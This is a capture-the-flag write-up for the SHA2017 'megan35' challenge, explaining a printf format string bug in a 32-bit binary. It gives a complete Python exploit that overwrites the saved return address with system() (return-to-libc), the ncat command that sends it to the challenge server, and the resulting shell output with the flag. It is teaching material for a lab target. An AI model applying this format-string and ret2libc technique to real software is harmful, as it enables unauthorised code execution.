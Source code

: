 ```yaml
---
title: SHA2017 CTF - megan35 (pown 200)
author: Tosh
date: 2017-08-07
tags: ctf,pown,format string
layout: post
---
```


This is my solution for the challenge megan35 from SHA2017 CTF.

# Description of the challenge

We created our own Megan-35 decoding tool, feel free to test it. System is running Ubuntu 16.04, ASLR is disabled.

A service is running on megan35.stillhackinganyway.nl:3535.

Files provided (ELF-32 bits):

- [megan-35](https://repo.t0x0sh.org/CTF/SHA_2017/megan-35)

- [libc.so.6](https://repo.t0x0sh.org/CTF/SHA_2017/libc.so.6)

Protections :

```
RELRO          Partial RELRO
STACK CANARY   Canary found
NX             NX enabled
PIE            No PIE
RPATH          No RPATH
RUNPATH        No RUNPATH
ASLR           ASLR is disabled
```

# The vulnerability

The program decodes a megan35 string, and print it to stdout. The problem is that the buffer is directly passed to the printf() function which makes the program vulnerable to format string attack.

To build my exploit, I used the script [weird_encodings.py](https://gist.github.com/tunelko/49b7e64c1688d62d0ecd) from a github repository to encode strings in megan-35.

I started to get the base adresse of libc function from the leak of the format string (by using "%s").

With this adresse and the libc provided, I'm now able to build a return2libc attack and can finally overwrite the saved-eip with the system() adresse and execute a shell command !


# My exploit

```python
import base64
import sys
import struct

class Megan35:

    def __init__(self):
        megan35 = "3GHIJKLMNOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5"
        b = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
        self.srch = dict(zip(b, megan35))
        self.revlsrch = dict(zip(megan35, b))

    def encode(self, pt):
        global srch
        b64 = base64.b64encode(pt)
        r = "".join([self.srch[x] for x in b64])
        return r

# Obtained with a bit of bruteforcing :)
SEIP = 0xFFFFdb5c

# Obtained with leak
SYSTEM = 0xf7e53940

payload = struct.pack('<I', SEIP+3)
payload += struct.pack('<I', SEIP+2)
payload += struct.pack('<I', SEIP+1)
payload += struct.pack('<I', SEIP+0)

FMT = "a;cat flag    ;%0{}x%7$hhn%0{}x%8$hhn
                     %0{}x%9$hhn%0{}x%10$hhn\n".format(220,238,84,263)

payload += Megan35().encode(FMT)

print payload
```

We get :

```
$ python2.7 sploit.py | ncat megan35.stillhackinganyway.nl 3535
  Decrypt your text with the MEGAN-35 encryption.
  sh: 1: }yuqa: not found
  flag{43eb404b714b8d22e1168775eba1669c}
  sh: 1: %0220x%7%0238x%8%084x%9%0263x%10: not found
```
